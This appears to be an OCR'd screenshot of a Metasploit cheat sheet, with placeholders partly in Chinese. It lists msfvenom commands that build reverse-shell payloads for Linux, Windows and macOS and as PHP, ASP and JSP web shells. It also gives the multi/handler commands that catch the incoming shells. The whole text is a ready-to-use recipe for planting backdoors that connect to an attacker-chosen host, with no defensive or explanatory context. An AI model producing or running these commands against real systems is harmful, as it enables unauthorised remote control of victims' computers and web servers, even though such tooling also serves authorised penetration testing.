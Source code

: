 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f elf > shell.elf

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f exe > shell.exe

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f macho > shell.macho



msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f raw > shell.php

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f asp > shell.asp

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f raw > shell.jsp



msf5 > use exploit/multi/handler
msf5 > set payload <payload名称>
msf5 > set lhost/rhost <本地IP/目标IP>
msf5 > set lport <本地端口>
msf5 > run -j -z